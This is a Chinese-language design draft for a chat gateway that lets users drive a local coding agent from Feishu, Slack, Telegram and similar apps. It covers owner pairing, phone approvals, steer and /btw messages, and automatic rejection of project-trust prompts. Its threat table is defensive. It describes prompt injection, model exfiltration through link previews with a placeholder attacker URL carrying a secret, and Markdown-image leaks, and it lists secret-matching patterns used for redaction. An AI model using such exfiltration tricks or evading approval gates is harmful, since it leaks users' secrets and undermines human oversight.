

# zycode 聊天应用接入设计（Chat Gateway）

> **状态**：设计草案。§9 的决策待确认，确认之前不写代码。
>
> **日期**：2026-11-28。
>
> **一句话**：`zycode-chat` 是一个常驻的网关进程。它主动连出到聊天平台（飞书、钉钉、企业微信、Slack、Telegram、Discord），把聊天里的消息、按钮和命令转成标准 ACP 请求，交给本机的 `zycode-agent`。用户可以在手机的聊天软件里给 agent 派任务、看进度、审批命令、中途补一句（steer）、问旁路问题（`/btw`）。
>
> **关联文档**：[重构路线图](2026-11-25-zycode-refactor-and-roadmap.md) §3（daemon、跨端审批）与 Phase 4（移动端）；[2026-11-28 审计](../AUDIT/AUDIT-ROADMAP-2026-11-28.md) 的 RM-10、RM-11、RM-12、RM-18、RM-19；[ACP 扩展登记](2026-11-05-acp-extension-registry.md) 的 X7、X9、X10；[Auto 模式设计](2026-11-02-auto-mode-design.md)；`AGENTS.md` 的 Invariant 8、9、9b、9c、9d。

---

## 0. 目标与非目标

### 0.1 目标

1. **在聊天软件里用 zycode。** 私聊机器人，或在绑定的群里 @ 它，发起一个任务。它在本机的项目目录里工作，回答以流式卡片（或节流编辑的消息）出现在聊天里。
2. **手机上审批。** agent 要运行一个需要确认的工具调用时，所有者的手机收到平台的推送，看到完整的命令或代码，点"允许一次"或"拒绝"。
3. **复用现有能力，不改 agent。** 网关是又一个标准 ACP 客户端，与 VS Code 插件、`zypi` 同级。它用已登记的 X9（steer）与 X10（`/btw`），不新增必需的线上协议项。
4. **不开公网端口。** 网关主动连出到平台（长连接、Socket Mode、长轮询），开发机在 NAT 后面也能用。
5. **安全边界不放松。** 审批只认所有者；项目信任永远不在聊天里答"是"；永远不进入 `always-approve`；平台凭据不进 agent 进程；发到聊天里的内容尽量少，并关闭链接预览。

### 0.2 非目标（v1 不做）

1. **团队模式**：多个用户各用自己的权限、自己的项目和自己的模型额度。它要按用户隔离进程或容器，另立设计（§12 第 1 条）。
2. **个人微信**：没有官方机器人接口，不做。
3. **在聊天里编辑代码或看完整文件树。** 聊天只用来指挥与审批，与路线图"ADE，不做 IDE"的定位一致。
4. **daemon 模式。** v1 不依赖路线图的 Phase 1。daemon 做出来以后，网关换后端（§2.4）。
5. **端到端加密。** 聊天平台能看到发给它的明文。这与路线图 Phase 4 的 E2EE 中继不同（§7.3）。

---

## 1. 用户场景

### 1.1 首次配对

1. 用户在开发机上运行 `zycode-chat setup`，选平台，填入机器人的凭据（飞书的 App ID 与 App Secret 等）。凭据存进 `<home>/chat/credentials.toml`（权限 `0600`）。
2. 用户在 `<home>/chat.toml` 里列出允许使用的项目（名字与绝对路径）。
3. `zycode-chat pair` 在终端里打印一个一次性的配对码，10 分钟内有效。
4. 用户在聊天软件里私聊机器人：`/pair 4KX9-2M`。网关记下这个平台用户 id，作为所有者。之后只有所有者（以及 `chat.toml` 里明确列出的人）能让 agent 做事。
5. `zycode-chat run` 启动网关（之后可以装成用户级服务，§8.4）。

### 1.2 派一个任务，在手机上审批

1. 所有者私聊："在 zycode 项目里跑一下 `tests/test_x.py`，把失败修好。"（只有一个项目时可以不写项目名；多个项目时用 `/project zycode` 或在消息开头写 `#zycode`。）
2. 网关在这个私聊里开一个新会话，回一张"回合卡片"：状态（思考中 / 运行工具 / 等待审批 / 完成）、流式的回答、每个工具调用一行。
3. agent 要运行 `bash: pytest tests/test_x.py -x`。网关发一张审批卡片：完整的命令、工作目录、Auto 给出的原因（如果是 Auto 问的），两个按钮。所有者的手机收到推送。
4. 所有者点"允许一次"。卡片变成"已允许 · 时间"，按钮消失。agent 继续。
5. 回合结束，网关发最终回答（Markdown 转成平台的格式）和一行摘要：改了哪些文件（`+12 −3`）、用了多少 token、上下文占多少。需要时点"查看 diff"，网关把补丁作为文件发到私聊。

### 1.3 中途补一句（steer）

回合还在跑，所有者又发："顺便把 lint 也修了。"网关调用 `pi/session/steer`（X9），在这条消息上加一个 ⏳ 表情。agent 在下一个回合边界真正读到它时（`user_message_chunk` 带 `pi/steered`），表情换成 ✅。如果回合在读到之前结束了（取消、出错、`max_turns`），网关收到 `pi/queue_update` 里的 `clearedSteerIds`，把表情换成 ❌，并回一句"这条没有送达模型，需要的话请重发"。聊天里没有输入框可以回填，所以明说。

### 1.4 旁路问题（`/btw`）

所有者发：`/btw 刚才改的那个函数签名是什么？` 网关调用 `pi/session/btw`（X10），把回答流式发到一张单独的卡片里，标明"BTW：不进入会话"。平台支持"仅自己可见"的消息时用它。同一个话题里 10 分钟内的下一条 `/btw` 带上前几轮（20 轮、32 KiB 以内，网关裁剪）；`/btw end` 或超时清掉。注意：回答不写进会话文件，但它留在聊天平台的记录里。

### 1.5 停止、换会话、恢复

- `/stop`：调用 `session/cancel`。等待中的审批按"取消"结束。
- `/new`：在当前聊天开一个新会话。
- `/resume`：列出当前项目最近的会话（`session/list`，按项目路径过滤），所有者点一个，网关用 `session/resume` 接上（不回放历史，聊天里不会刷屏）。

### 1.6 项目信任问题

项目里有扩展、保存的 workflow、`.pi/SYSTEM.md` 或项目 skills，并且还没有被信任时，agent 会问"是否信任这个项目"。网关**不**把它做成按钮，自动答"不信任"，然后告诉所有者："这个项目自带的扩展、skills 和提示文件没有加载。要启用，请在本机用 `zypi` 或 VS Code 打开这个项目并选择信任。"信任决定存在 `<home>/agent/trust.json`，下次网关开的会话会直接用它。原因见 §6.3。

---

## 2. 架构

### 2.1 网关是一个 ACP 客户端，不是 agent 扩展

| 方案 | 结论 | 原因 |
|------|------|------|
| **A. 网关是独立进程，作为标准 ACP 客户端启动 `zycode-agent`（推荐）** | 采用 | 符合剥离计划的 P1（ACP 是唯一接缝）、P3（入口由 agent 公布的能力决定）、P5（权限决定走 `session/request_permission`，凭据只在 agent 进程）。VS Code 插件与 `zypi` 已经验证了这条路。agent 不用改 |
| B. 做成 agent 的扩展（`ExtensionAPI`），在 agent 进程里连聊天平台 | 不采用 | 审批要绕过 ACP 在进程内转一圈；平台凭据进入 agent 进程，模型可以用 `bash env` 读到；一个 agent 进程只服务一个客户端连接，扩展和客户端会抢同一个会话 |
| C. 用 headless 模式（`-p`）每条消息跑一次 | 不采用 | headless 强制 `always-approve`（`packages/pi-agent-cli/AGENTS.md`），没有审批 |

### 2.2 进程模型



1. **一个项目一个 agent 进程。** 项目是信任域（Invariant 9）。同一个项目的多个会话（多个话题）放在同一个进程里；不同项目不共用进程。这是审计 RM-10 的最低要求：受信任项目的扩展代码只和同一个项目的会话在一个进程里。
2. **网关不发 `pi/yolo_mode_changed`（X8）。** X8 会改掉进程里所有会话的模式（审计 RM-10）。网关只用按会话的标准项（`session/set_mode` 或 `mode` 配置项），它们只接受 `ask` 与 `auto`。
3. **空闲回收。** 一个项目的 agent 进程空闲 `idle_agent_minutes`（默认 20）后，网关关闭它的 stdin，agent 按现有的退出路径结束（剥离计划 P6）。下一条消息再启动，并用 `session/resume` 接上会话。本机测得源码版 agent 空闲时约 74 MiB（审计 §八 8.3），所以要回收。
4. **崩溃。** agent 进程意外退出时，网关把它的等待中的审批按"取消"结束，在受影响的话题里说一句，下一条消息时重启并 `resume`。网关自己退出时，agent 读到 EOF 也会退出；会话已经在 JSONL 里，重启后照常 `resume`，正在跑的回合会丢，网关在重启后告诉这些话题"上一轮被中断"。

### 2.3 组件

建议新建 `packages/pi-chat-gateway/`（语言的选择见 §9 的 CG-D2）：

```text
pi_chat_gateway/
├── __main__.py        # zycode-chat：setup | pair | run | status | unpair
├── config.py          # 读 chat.toml 与凭据；拒绝 always-approve、相对路径、未知平台
├── identity.py        # 配对码、所有者、白名单、每个动作的授权
├── backend.py         # AgentBackend 接口；AgentProcessPool（一个项目一个 zycode-agent）；以后的 DaemonBackend
├── acp_client.py      # ACP 的 Client 一侧：session_update、request_permission、ext_notification（queue_update、btw_update）
├── bindings.py        # (平台, 租户, 聊天, 话题) ↔ 会话；存在 state.sqlite
├── turns.py           # 每个绑定一个回合状态机：idle / busy / waiting_approval
├── approvals.py       # 等待中的审批、nonce、超时、信任问题的识别与自动拒绝
├── render/            # 与平台无关的回合视图；Markdown 方言；拆分；脱敏；链接与图片的处理；节流
├── platforms/
│   ├── base.py        # PlatformAdapter 接口与能力表
│   ├── fake.py        # 测试用的内存平台
│   └── feishu.py …    # 每个平台一个适配器，SDK 作为可选依赖
└── audit.py           # 审批与授权的本地审计日志
```

Python 的 ACP SDK（`agent-client-protocol` 0.12.1，`constraints.txt` 锁定）已经有客户端需要的全部接口：`spawn_agent_process(..., env=..., cwd=...)`；`ClientSideConnection` 的 `prompt`、`cancel`、`new_session`、`resume_session`、`list_sessions`、`set_config_option`、`set_session_mode`、`ext_method`；`Client` 一侧的 `request_permission`、`session_update`、`ext_notification`。`env` 参数让网关能控制 agent 的环境变量（§7.2 第 4 条）。

**平台适配器接口**（示意）：

```python
class PlatformCaps(NamedTuple):
    buttons: bool          # 消息里能放按钮
    edit: bool             # 能编辑已发的消息
    stream: bool           # 有原生的流式消息（飞书 CardKit、Slack chat stream、钉钉 AI 卡片……）
    ephemeral: bool        # 能发"仅自己可见"的消息
    reactions: bool        # 能在用户的消息上加表情
    threads: bool          # 有话题 / 线程
    files: bool            # 能发文件
    max_text: int          # 单条消息的长度上限

class PlatformAdapter(Protocol):
    caps: PlatformCaps
    async def run(self, sink: InboundSink) -> None: ...                 # 保持长连接；收到事件就调 sink
    async def send(self, to: Target, msg: OutMessage) -> MessageRef: ...
    async def update(self, ref: MessageRef, msg: OutMessage) -> None: ...
    async def stream(self, to: Target) -> StreamHandle | None: ...      # caps.stream 为假时返回 None
    async def send_file(self, to: Target, name: str, data: bytes) -> MessageRef: ...
    async def react(self, msg: InboundRef, emoji: str) -> None: ...
    async def send_ephemeral(self, to: Target, user: str, msg: OutMessage) -> None: ...
```

入站事件统一成两种：`InboundMessage`（平台、租户、聊天、话题、消息 id、发送者、文字、图片、是否 @ 机器人、是否私聊）和 `InboundAction`（按钮：绑定 id、审批 id、选项 id、nonce、点按钮的人）。

### 2.4 与路线图的关系

| 路线图阶段 | 网关的形态 |
|------------|------------|
| 现在（Phase 1 之前） | `AgentProcessPool` 后端：网关自己启动 agent。不依赖任何未定的设计 |
| Phase 1（daemon） | 换成 `DaemonBackend`：网关是 daemon 的一个远程客户端，会话可以在桌面端开始、在飞书里审批。网关现在的规则（§6）就是 daemon 的"远程客户端权限范围"（审计建议的 D9）的第一份实现 |
| Phase 4（移动端） | 聊天网关已经覆盖"手机上审批、通知、steer、`/btw`"。手机 App 还要不要做、做到什么范围，建议 Phase 1 之后按使用情况再定（§9 的 CG-D7）。代价：聊天平台看得到明文，E2EE 中继看不到 |

网关不需要路线图里任何还没定的决定（D1–D5），也不改变它们。

---

## 3. 平台选型

下表来自 2026-11-28 的资料检索。标"待核实"的，写代码前要读官方文档或实测。

| 平台 | 不开公网端口时怎么收消息 | 按钮 | 流式输出 | Python SDK | 备注 |
|------|------|------|------|------|------|
| 飞书 / Lark | 长连接（WebSocket）。官方文档：建连时鉴权，之后的事件推送是明文 | 卡片回传交互。长连接模式下的接收方式：待核实 | CardKit 流式更新：卡片 JSON 2.0、`element_id`、`streaming_mode`；第三方资料称约 10 分钟后自动关闭流式 | 官方 `lark-oapi`（`ws.Client`） | 更新的卡片不能超过 30 KB |
| 钉钉 | Stream 模式（WebSocket），机器人收消息与卡片回调都走它 | 互动卡片回调 | AI 卡片流式更新（需要单独的权限） | 官方 `dingtalk-stream` | 企业内部应用 |
| 企业微信 | 智能机器人长连接（`wss://openws.work.weixin.qq.com`，连接后发认证帧） | 模板卡片（官方 SDK 文档：更新须在 5 秒内调用） | `replyStream` | 官方只有 Node.js 的 `@wecom/aibot-node-sdk` | 用 Python 要自己实现它的帧协议 |
| Slack | Socket Mode（事件、按钮、斜杠命令都走它） | Block Kit 按钮 | `chat.startStream` / `appendStream` / `stopStream`（2025-10 推出；单个流最长 10 分钟，超过要在同一话题开新流） | 官方 `slack_bolt` / `slack_sdk`（有 `chat_stream` 辅助） | 发消息时关闭 unfurl（§7.2 第 5 条） |
| Telegram | `getUpdates` 长轮询 | inline keyboard 回调 | `sendMessageDraft`：临时草稿（约 30 秒的预览），最终要再 `sendMessage`；有限流；上线时间来自二手资料，待核实 | 社区的 `aiogram` 等 | 国内网络需要代理；单条 4096 字符 |
| Discord | Gateway（WebSocket） | 消息组件按钮 | 没有原生流式，节流编辑 | 社区的 `discord.py` | 单条 2000 字符；用 `SUPPRESS_EMBEDS` 关预览 |
| 个人微信 | 没有官方机器人接口 | — | — | — | 不做 |

**推荐**：首发**飞书**（长连接、卡片按钮、流式卡片、官方 Python SDK 都有，中文用户多），第二个做 **Telegram**（个人用户最简单）或 **Slack**（海外团队）。钉钉与企业微信放在后面：钉钉要企业内部应用；企业微信的长连接官方 SDK 只有 Node.js。最终由 §9 的 CG-D1 定。

---

## 4. 会话与话题的映射

1. **绑定**：键是 `(平台, 租户, 聊天 id, 话题 id)`，值是 `{会话 id, 项目名, 所有者, 创建时间, 最后使用时间}`，存在 `<home>/chat/state.sqlite`。网关只存映射和它发出的消息 id（用来编辑卡片），**不存对话内容**；对话的唯一真源仍是 agent 的 JSONL v3。
2. **私聊**：一个私聊同一时间有一个"当前会话"。`/new` 开新的，`/resume` 换到旧的。
3. **群聊**：只在 `chat.toml` 绑定过的群里工作，并且要 @ 机器人。每条 @ 机器人的根消息开一个话题（平台有话题时）或一个会话；话题里的后续消息属于同一个会话。没有话题的平台（例如普通 Telegram 群）只支持私聊，或用"回复机器人的消息"来串联。
4. **项目**：会话开始时确定，之后不变。项目只能从 `chat.toml` 的列表里选（名字），聊天里**不能**传路径。
5. **恢复**：网关重启后不主动做任何事；某个绑定收到下一条消息时，再对它的会话调用 `session/resume`。
6. **单一写者**（审计 RM-12）：现在没有跨进程的会话锁，同一个会话在 VS Code 与聊天里同时继续，会话树会悄悄分叉。网关的做法：(a) `/resume` 的列表标出最近 10 分钟内被改过的会话（"可能正在别处使用"），选它时要再确认一次；(b) 文档写明不要两边同时继续；(c) 路线图的 D8 定下锁的约定以后，网关第一个实现它。

---

## 5. 消息管线

### 5.1 入站：聊天 → agent

1. **核对来源**：平台与租户和配置一致；私聊的对方是所有者，或群在 `chat.toml` 里且发送者在该群的 `users` 白名单里；群消息要 @ 机器人。不满足的一律不处理（默认不回复，免得泄露信息；可以配置一句固定的拒绝语）。
2. **去重**：按平台的事件 id 或消息 id 去重，平台会重投。先在平台要求的时限内确认收到，再异步处理。
3. **整理内容**：去掉 @ 机器人的部分；图片下载后转成 ACP 的图片内容块（agent 支持图片：`prompt_capabilities.image = true`），限制大小与类型；其他文件 v1 不收，回复说明原因。
4. **命令**（§5.3）在网关处理；不认识的 `/xxx` 原样作为提示词交给 agent（agent 用 `available_commands_update` 公布的 `/skill:<name>` 等命令由 agent 自己处理）。
5. **路由**：
   - 会话空闲：`session/prompt`。
   - 会话忙，agent 在 `initialize` 里宣布了 `pi/capabilities.steer`：`pi/session/steer`。结果是 `queued: false, reason: "idle"` 时改发 `session/prompt`；`aborting`、`waiting_for_trust`、`waiting_for_barriers` 时回复"稍后再发"。
   - 会话忙，agent 没有宣布 steer：在网关里排队，回合结束后发。

### 5.2 出站：agent → 聊天

**回合视图**（与平台无关）：状态、累积的回答文字、累积的思考（默认不显示）、工具调用列表（每个：标题、类型、状态、耗时）、计划、用量。网关把 `session/update` 的各类更新（`agent_message_chunk`、`agent_thought_chunk`、`tool_call`、`tool_call_update`、`plan`、`user_message_chunk`、用量更新等）合进这个视图。

**渲染策略**，按平台能力从上往下选：

1. 平台有原生流式（`caps.stream`）：用它（飞书 CardKit、Slack chat stream、钉钉 AI 卡片、企业微信 `replyStream`、Telegram 草稿）。碰到平台的时长或大小上限时，结束当前流，在同一话题接着开新的。
2. 平台能编辑消息：节流编辑，默认每条消息最多每秒一次，合并期间的所有增量；收到限流（429）时按 `Retry-After` 退避。
3. 都不行：只发最终结果，期间用"输入中"状态或一条状态消息。

**最终消息**：回合结束时发一条普通消息（会留在聊天记录里），Markdown 转成平台的格式（Slack mrkdwn、飞书卡片 Markdown、Telegram HTML 等）；平台不支持的结构（表格等）降级为代码块；超过单条上限时按段落与代码块的边界拆开，或作为 `.md` 文件发送。末尾一行摘要：停止原因、改动的文件与行数、token、上下文占比。

**工具调用**：默认每个调用一行（"🔧 `bash` `npm test` — ✅ 退出码 0，3.2 s"），**不发输出**。`tool_output = "on_request"` 时，行尾有"查看输出"按钮，只有所有者能点，输出作为文件发到私聊（截断前 N 行之外的内容在文件里，不在聊天正文里）。

**改动与 diff**：`write`、`edit` 显示"📝 `src/x.py` +12 −3"。网关与 agent 在同一台机器上，可以像 VS Code 插件那样在审批前读原文件，生成 diff；"查看 diff"按钮把补丁作为文件发出。

**思考**：默认不发。`/thinking show` 打开后，作为可折叠的部分（平台支持时）或单独一条消息。

**Auto 的提示**：agent 自己发的 Auto 进入与询问提示，原样显示（它们本来就是给用户看的）。

### 5.3 命令

平台支持原生斜杠命令或菜单的（Slack、Telegram、Discord、飞书机器人菜单），注册成原生命令；同时都接受以 `/` 开头的文字。

| 命令 | 作用 | 谁能用 |
|------|------|--------|
| `/pair <码>` | 配对所有者 | 任何人（码一次有效，10 分钟过期；连续输错 5 次锁 1 小时） |
| `/new` | 当前聊天开新会话 | 所有者、白名单用户 |
| `/project <名字>` | 选项目（只能是 `chat.toml` 里的） | 所有者 |
| `/resume` | 列出并恢复本项目的会话 | 所有者 |
| `/stop` | `session/cancel` | 所有者、发起该回合的白名单用户 |
| `/btw <问题>`、`/btw end` | X10 旁路问答 | 所有者、白名单用户 |
| `/mode ask` 或 `/mode auto` | 按会话切换模式；`auto` 要配置允许；`always-approve` 永远拒绝 | 所有者 |
| `/model`、`/thinking` | 列出并切换 agent 公布的配置项（`model`、`thought_level`），用 `session/set_config_option` | 所有者 |
| `/status` | 项目、会话、模型、模式、上下文占比、等待中的审批 | 所有者、白名单用户 |
| `/help` | 命令列表，加上 agent 公布的命令 | 任何允许的人 |

---

## 6. 审批、权限模式与项目信任

### 6.1 工具审批

1. agent 的 `session/request_permission` → 审批卡片。卡片内容：
   - 标题与工具类型；Auto 问的时候，标题里有 Auto 的原因。
   - **完整的**命令、路径、代码或脚本：`bash` 的 `command`；`write` 与 `edit` 的路径和 diff 摘要；`codemode` 的 `code`；`workflow` 的 `script`，或内置 workflow 的名字与 `args`；MCP 工具的名字与参数。VS Code 插件的规则是"长文本可以滚动，但从不截断"；聊天里放不下时，正文放前若干行并写明"完整内容见附件"，同时把全文作为文件发出。**不许悄悄截断。**
2. 按钮来自请求里的选项（工具调用是 `allow-once` 与 `reject-once`）。按钮的值里带 `(绑定 id, 审批 id, nonce)`。
3. 点按钮时网关检查三件事：点的人是所有者或该绑定的 `approvers`；审批仍在等待；nonce 对得上。第一个有效的点击生效，卡片改成"已允许 / 已拒绝 · 谁 · 时间"，按钮去掉。别人点了，平台支持时回一条仅对方可见的"你不能审批这个请求"，并记进审计日志。
4. **超时**：`approval_timeout_minutes`（默认 30）到了还没人答，网关选 `reject-once`，卡片改成"超时，已拒绝"。
5. **群聊里的审批默认发到所有者的私聊**（`approvals_in_dm = true`）。命令里可能有密钥或内部地址，群里只显示"等待所有者审批"。
6. `/stop` 或 agent 取消请求时，等待中的审批按"取消"结束，卡片同步更新。

### 6.2 权限模式

1. 新会话的起始模式来自 `chat.toml` 的 `start_mode`，只能是 `ask`（默认）或 `auto`。
2. `auto` 要 `allow_auto = true`。Invariant 9c 说 Auto 不是沙箱：读文件、`grep` 等不问就运行，内容会进模型；在聊天场景里，它们还可能出现在发回聊天的回答里。所以默认不开。
3. **`always-approve` 永远不能从网关进入。** 配置里写它，网关拒绝启动；聊天里要求，网关拒绝。网关也从不发 X8。理由：所有者不在电脑前，正是需要审批的时候；而 X8 还会影响同一进程里的别的会话（审计 RM-10）。

### 6.3 项目信任

agent 的信任问题也走 `session/request_permission`（`pi_agent_cli/trust_prompt.py`）。它的形状是一个现有但没有登记的约定，VS Code 插件靠它识别（`vscode/src/core/chat-controller.ts` 的 `looksLikeTrustRequest` 与 `hasTrustOptions`）：

- 工具调用 id 以 `trust-` 开头；
- `rawInput` 有 `project` 与 `resources` 两个字段；
- 恰好两个选项：`dont-trust-project`（`reject_once`）与 `trust-project`（`allow_always`）。

网关的规则：

1. 符合这个形状的请求：**不显示按钮**，立刻选 `dont-trust-project`，并在话题里说明哪些资源没有加载、怎样在本机信任（§1.6）。
2. 像信任问题但形状对不上（例如 id 以 `trust-` 开头，选项却不同）：同样拒绝，并记进审计日志（失败时关闭）。
3. 理由：信任一个项目，会在开发机上运行该项目的 Python 扩展（Invariant 9）。设计上它特意躲开"顺手批准"的通道（审计 P7-02）。手机上的一个按钮正是那种通道（审计 RM-11）。
4. 建议把这个形状登记进 ACP 扩展登记（作为在用的项，只补文档），以后再考虑在请求的 `_meta` 里加一个明确的类型键（新项，要过五条准入规则）。这样网关、VS Code、以后的 daemon 和手机端都不用猜（§9 的 CG-D9）。

### 6.4 网关永远不做的事

1. 不让任何会话进入 `always-approve`，不发 X8。
2. 不对信任问题答"是"。
3. 不用 `-p`（headless）启动 agent。
4. 不把自己的凭据传给 agent 进程。
5. 不处理白名单以外的人发的消息。
6. 不让聊天指定文件系统路径。
7. 不在未经所有者请求时发工具输出。
8. 不开链接预览，不渲染远程图片。

---

## 7. 安全与隐私

### 7.1 威胁与对策

| 威胁 | 对策 |
|------|------|
| 群里的其他人给 agent 下指令（提示词注入、越权） | 只处理所有者与白名单用户的消息；别人的消息不进 agent，引用转发的内容算所有者自己的输入 |
| 别人点审批按钮 | 每次点击核对身份；审批默认发到私聊 |
| 旧按钮、重放、平台重投 | 按钮带 nonce 与审批 id；只认等待中的审批；事件按 id 去重 |
| 手机上一键信任恶意仓库 | 信任问题永远自动拒绝（§6.3） |
| 平台凭据泄露给模型 | 凭据不放 `local.env`（agent 启动时把它读进自己的环境：`packages/pi-agent-cli/pi_agent_cli/__main__.py` 第 294 行）；网关启动 agent 时去掉自己的凭据变量；测试覆盖（§10） |
| 模型借链接预览外传数据：回答里放 `https://攻击者/?q=<密钥>`，平台的服务器展开预览时就把数据送出去了，不用人点 | 每条消息都关闭链接与媒体预览（Slack `unfurl_links` / `unfurl_media` 设为 false，Telegram `link_preview_options.is_disabled`，Discord `SUPPRESS_EMBEDS`）；飞书、钉钉、企业微信能否关闭待核实，不能关时把模型回答里的链接改成不可点的代码样式 |
| 模型借 Markdown 图片外传数据（``） | 回答里的图片语法一律改成纯文本链接，不渲染 |
| 密钥出现在回答或输出里 | 尽量少发（默认不发工具输出）；发出前做脱敏：已知值精确替换（网关自己的凭据、`local.env` 里的值、`agent.toml` 的 `api_key_env` 指向的变量），再按常见格式匹配（`sk-…`、`AKIA…`、`ghp_…`、`xox?-…`、私钥头等）。这是尽力而为，不是保证 |
| 网关被滥用烧掉模型额度 | 同时进行的回合数上限、每人每小时回合数上限（配置） |
| 手机丢失、聊天账号被盗 | `zycode-chat unpair` 或在本机停掉网关立即生效；可以配置"所有者以外没有任何人"；审计日志可查 |
| 网络监听 | 只用平台的 TLS 长连接，网关不监听任何端口。以后如果支持 webhook 模式，必须校验平台签名 |

### 7.2 实现要求（会写成测试）

1. 所有出站消息经过同一个 `render` 出口，出口统一做：脱敏、链接与图片处理、关预览参数、长度拆分。适配器不能绕过它。
2. 每个动作在执行前查一次授权表（§5.3 与 §6.1），授权失败写审计日志。
3. 配置校验失败（`always-approve`、相对路径、项目路径不存在、平台未知）时，网关拒绝启动并说明原因。
4. 启动 agent 时用显式的环境：从网关的环境出发，去掉凭据变量（按名字前缀与精确名字两种规则），再加上 agent 需要的（`PI_HOME` 等）。审计 RM-18 指出：作为服务运行时，`PATH` 可能只有系统目录，`bash` 工具会找不到用户装的程序。`chat.toml` 的 `env = "login-shell"` 让网关启动时运行一次用户的登录 shell 取环境（VS Code 也这样做），`env = "inherit"` 直接继承。
5. 凭据文件权限 `0600`，归当前用户；权限不对时拒绝读取（Windows 上检查 ACL，或用系统的凭据管理器）。

### 7.3 隐私说明（写进用户文档）

1. 发到聊天里的一切（回答、工具名、命令、diff、文件）都会存到聊天平台的服务器上，保存多久由平台与所在组织的设置决定。网关删不掉已发出的内容。
2. 聊天网关不是沙箱。它只多加了一道审批与身份的门；Auto 的限制照旧适用（Invariant 9c）。
3. 模型的请求照旧从开发机直接发到模型服务商，网关不经手。

---

## 8. 配置、凭据与命令行

### 8.1 `<home>/chat.toml`

`<home>` 是 `pi_home()`（`PI_HOME`，否则 `~/.pi-python`；路线图的 `~/.zycode` 定下来以后跟着走）。只有网关读这个文件，agent 不读。

```toml
[gateway]
platform = "feishu"              # feishu | dingtalk | wecom | slack | telegram | discord
agent_command = "zycode-agent"   # 与 zypi 相同：先找本程序旁边，再找 PATH
start_mode = "ask"               # ask | auto；写 always-approve 会拒绝启动
allow_auto = false
approval_timeout_minutes = 30
approvals_in_dm = true
idle_agent_minutes = 20
max_active_turns = 3
show_thinking = false
tool_output = "none"             # none | on_request
env = "login-shell"              # login-shell | inherit
language = "zh"                  # 网关自己的文字：zh | en

[owner]
user_id = ""                     # 由 zycode-chat pair 写入

[[projects]]
name = "zycode"
path = "/home/me/work/zycode"    # 必须是绝对路径

[[channels]]                     # 可选：把群绑定到一个项目
chat_id = "oc_xxx"
project = "zycode"
users = []                       # 除所有者外，谁能在这个群里给 agent 发消息
approvers = []                   # 除所有者外，谁能审批这个群里的会话
```

### 8.2 凭据

存在 `<home>/chat/credentials.toml`（`0600`），或系统的凭据管理器（macOS 钥匙串、Windows 凭据管理器、Linux Secret Service）。**不放进 `local.env`**，因为 agent 启动时会把 `local.env` 读进自己的环境，模型就能用 `bash` 读到。

```toml
[feishu]
app_id = "cli_xxx"
app_secret = "…"
```

### 8.3 网关自己的数据

| 路径 | 内容 |
|------|------|
| `<home>/chat/state.sqlite` | 绑定、网关发出的消息 id、`/resume` 的缓存。没有对话内容 |
| `<home>/chat/audit.log` | 配对、审批（谁、什么、何时、结果）、被拒绝的授权 |
| `<home>/chat/logs/` | 运行日志（不写消息正文，只写 id 与类型） |

### 8.4 命令行

```text
zycode-chat setup        # 选平台、填凭据、测连接
zycode-chat pair         # 打印配对码
zycode-chat unpair       # 清掉所有者
zycode-chat run          # 前台运行
zycode-chat status       # 连接、绑定、正在跑的回合、等待中的审批
```

v1 只在前台运行，文档给出 systemd 用户单元、launchd 与 Windows 计划任务的示例；以后再加 `install-service`。

---

## 9. 待确认的决策

| # | 决策点 | 推荐 | 备选 |
|---|--------|------|------|
| CG-D1 | 首发平台 | **飞书**；第二个做 Telegram 或 Slack | 钉钉、企业微信（长连接官方 SDK 只有 Node.js） |
| CG-D2 | 实现语言与位置 | **Python，`packages/pi-chat-gateway/`**（PyPI 包名待定，命令 `zycode-chat`）。理由：飞书、钉钉、Slack 都有官方 Python SDK；可以直接用仓库的 pytest 与 `tests/_tool_agent.py` 对着真实 agent 测；Python 的 ACP SDK 已锁定在 `constraints.txt` | TypeScript：复用 `vscode/src/core/acp-connection.ts`（已有 X9、X10 的客户端调用）。适合等路线图 Phase 1 把客户端核心抽出来以后再做 |
| CG-D3 | v1 范围 | **个人模式**：一个所有者，私聊为主，群聊要绑定 | 一开始就做团队模式（要按用户隔离进程与额度，工作量大很多） |
| CG-D4 | 权限模式 | **默认 `ask`；`auto` 要配置允许；`always-approve` 永远不行** | 允许 `auto` 作为默认 |
| CG-D5 | 项目信任 | **聊天里永远自动拒绝**，本机信任后生效（建议作为固定规则，不做成选项） | — |
| CG-D6 | 工具输出 | **默认不发**；按钮取，只给所有者，进私聊 | 默认发摘要（前若干行） |
| CG-D7 | 与 Phase 4 的关系 | 聊天网关先覆盖手机上的审批与通知；**手机 App 的范围在 Phase 1 之后按使用情况再定** | 照原计划同时做手机 App |
| CG-D8 | 分发 | **先发 PyPI 包**；是否并进冻结的 `zycode-agent`（例如 `zycode-agent chat` 子命令），量过体积再定 | 一开始就并进冻结的二进制 |
| CG-D9 | 信任问题的协议 | **先把现有形状登记**（只补文档）；以后视需要加 `_meta` 类型键（新项，过准入规则） | 不登记，继续靠形状猜 |

---

## 10. 测试计划

1. **单元测试**（不联网，不启动 agent）：
   - 配置：拒绝 `always-approve`、相对路径、不存在的项目、未知平台。
   - 身份：配对码一次有效、10 分钟过期、输错锁定；白名单；每个命令的授权表。
   - 审批：nonce、第一次点击生效、重复点击无效、非审批人被拒、超时选 `reject-once`。
   - 信任：形状完全符合时自动选 `dont-trust-project`；形状不全时也拒绝。
   - 渲染：Markdown 方言转换、拆分边界、图片语法改成纯文本、链接处理、脱敏（精确值与格式两种）、每条出站消息都带关预览参数。
   - 节流：增量合并、429 退避、流式的时长或大小到上限时换新流。
2. **对着真实 agent 的集成测试**（不联网，用内存平台 `fake.py`）：
   - `python -m pi_agent_cli`，`PI_USE_MOCK=1`：文字回合的流式与最终消息。
